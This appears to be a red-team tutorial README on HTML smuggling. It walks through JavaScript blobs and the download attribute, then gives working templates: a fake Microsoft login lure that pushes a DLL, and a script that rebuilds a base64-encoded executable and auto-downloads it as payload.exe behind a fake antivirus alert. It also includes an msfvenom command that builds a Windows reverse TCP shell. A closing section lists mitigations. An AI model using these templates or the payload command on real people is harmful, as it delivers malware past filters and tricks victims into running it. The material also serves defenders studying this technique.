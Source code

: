 # HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. My test is based off of examples found [here](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

![](smuggle1.png)

First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```

![](smuggle2.png)

It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:

![](smuggle3.png)

The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 

![](smuggle4.png)

There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 

![](smuggle5.png)

![](smuggle6.png)

We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: \<p>New Para\</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.

You can also fir up Kali and try this with an msfvenom created payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.129.132 LPORT=1234 -f exe > payload.exe
```
Base64 encode this on base64.guru and try the same template. 

## Mitigations
- Configure security products to block against pages using JS or VBScript from automatically running a downloaded executable. Windows Attack Surface Reduction Rules are handy for this https://learn.microsoft.com/en-us/mem/intune/protect/endpoint-security-asr-profile-settings  - Specifically the following rules:
	- Block execution of potentially obfuscated scripts (js/vbs/ps)
	- Block JavaScript or VBScript from launching downloaded executable content
- Whitelist executable filenames
- Set .js and .jse to open with notepad by default and not a browser
- Educate users to manually review e-mail attachments
- Set behaviour rules for HTML pages that decode base64 code or obfuscate a JS script.
- Microsoft’s Safe Links and Safe Attachments provide real-time protection against HTML smuggling and other email threats by utilizing a virtual environment to check links and attachments in email messages before they are delivered to recipients. Thousands of suspicious behavioral attributes are detected and analyzed in emails to determine a phishing attempt

## References
[delivr](https://blog.delivr.to/html-smuggling-recent-observations-of-threat-actor-techniques-74501d5c8a06) \
[outflank](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/) \
[pentest notes](https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/offensive-security/defense-evasion/file-smuggling-with-html-and-javascript.md) \ 
[cyfirma](https://www.cyfirma.com/outofband/html-smuggling-a-stealthier-approach-to-deliver-malware/) \
[trustwave](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/html-smuggling-the-hidden-threat-in-your-inbox/) \
[html smuggling detection](https://micahbabinski.medium.com/html-smuggling-detection-5adefebb6841) \
[hacking articles](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

